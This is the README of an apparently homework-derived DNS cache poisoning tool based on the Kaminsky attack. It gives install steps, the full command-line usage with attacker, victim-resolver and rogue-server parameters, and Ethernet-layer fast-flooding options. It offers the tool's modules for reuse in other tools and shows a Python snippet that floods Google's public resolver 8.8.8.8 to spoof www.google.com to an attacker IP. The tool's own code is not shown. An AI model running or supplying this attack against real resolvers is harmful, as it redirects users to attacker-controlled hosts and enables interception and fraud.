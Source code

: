 # DNS Poisoning Tool
A tool to perform DNS cache poisoning against vulnerable server.

![Image](docs/dnspoisoning_screen_2.png)

Both attack methodology is widely described here: [Kaminsky Attack](http://unixwiz.net/techtips/iguide-kaminsky-dns-vuln.html)

A detailed software documentation can be found [here](https://gr3yc4t.github.io/dns-poisoning-tool/html/annotated.html)

**WARNING**: This code is intended to be use only in the contex of a particular assignment. If you want to reuse some of the functionalities refer to the [modules section](#modules). 

**NOTE**: When used to test homework result the **FAST** mode is mandatory since otherwise packets are transmitted too slowly causing the attack to fail.

## Requirements
* Scapy (For packet crafting) `pip3 install scapy`
* Blessing (For coloured terminal) `pip3 install blessings`
* DNS Python (For initial DNS query)  `pip3 install dnspython`

Inline requirements installation command pip install:

```pip3 install scapy blessings dnspython```

Otherwise simply use the provided requirements file

```pip3 install -r requirements.txt```

## Usage
The files ```launch.sh``` and ```launch_fast.sh``` can be edited with all the necessary paramters to carry on the attack or, instead, you could use the command line parameter directly.

```
usage: main.py [-h] -t DOMAIN -a ATTACKER_IP -v VICTIM_DNS_IP
               [-bs BAD_SERVER_IP] [-bp BAD_SERVER_PORT] -bd BAD_DOMAIN
               [-ns NS_SERVER] [-i INTERFACE] [-at {NORMAL,DAN}]
               [-m {NORMAL,FAST}] [-vm VICTIM_MAC] [-si SECRET_IP]
               [-sp SECRET_PORT] [-nc] [-vb {1,2,3,4}]

DNS Poisoning Attack Tool

optional arguments:
  -h, --help            show this help message and exit
  -t DOMAIN, --target-domain DOMAIN
                        The target domain to spoof
  -a ATTACKER_IP, --attacker-ip ATTACKER_IP
                        Attacker IP address
  -v VICTIM_DNS_IP, --victim-dns-ip VICTIM_DNS_IP
                        The victim DNS IP address
  -bs BAD_SERVER_IP, --bad-server-ip BAD_SERVER_IP
                        The Bad Guy DNS server IP
  -bp BAD_SERVER_PORT, --bad-server-port BAD_SERVER_PORT
                        The Bad Guy DNS server port
  -bd BAD_DOMAIN, --bad-domain BAD_DOMAIN
                        The domain belonging to the attacker controlled zone
  -ns NS_SERVER, --ns-server NS_SERVER
                        The victim authoritative server
  -i INTERFACE, --interface INTERFACE
                        The Network Card interface to use
  -at {NORMAL,DAN}, --attack-type {NORMAL,DAN}
                        The type of attack to perform
  -m {NORMAL,FAST}, --mode {NORMAL,FAST}
                        Mode to use
  -vm VICTIM_MAC, --victim-mac VICTIM_MAC
                        The victim MAC address
  -si SECRET_IP, --secret-ip SECRET_IP
                        IP to bind for the secret fetcher
  -sp SECRET_PORT, --secret-port SECRET_PORT
                        Port to bind for the secret fetcher
  -nc, --no-colors      Suppress coloured terminal output
  -vb {1,2,3,4}, --verbosity {1,2,3,4}
                        Verbosity level
 ```
## Features
The tool support two version of the attack that can be specified with the related parameter
* Classical poisoning ([Shenanigans Version 1](http://unixwiz.net/techtips/iguide-kaminsky-dns-vuln.html#shenanigansv1))
* Dan's Shenanigans ([Dan's Version](http://unixwiz.net/techtips/iguide-kaminsky-dns-vuln.html#shenanigansv2))

In addition two modes are available for flooding
* **Normal Flooding** - which uses IP layer
* **Faster Flooding** - which uses Ethernet layer

When "*faster flooding*" is used, both victim MAC Address and a network interface must be supplied.

The secret is printed both on the terminal output and in ```log_secret.txt``` file. 

### <a id="modules"></a> Modules
The code is developed in a modular way in order to be implemented in other tools. An extensive class documentation can be found [here](https://gr3yc4t.github.io/dns-poisoning-tool/html/annotated.html).
For example the following code starts a flood of DNS crafted response against the server at "8.8.8.8" in order to spoof the google domain and redirect users to the attacker IP (66.66.66.66):
```python 
import DNSPoisoning

poisoning = DNSPoisoning('8.8.8.8', 'www.google.com', '66.66.66.66')
poisoning.start_flooding()
```

### Bugs
When runninng in faster mode, a single CTRL+C signal is not sufficient to stop the execution due to some thread/signal handler bug. Therefore to completely stop the tool is required to hold CTRL+C for few seconds until the terminate the application.
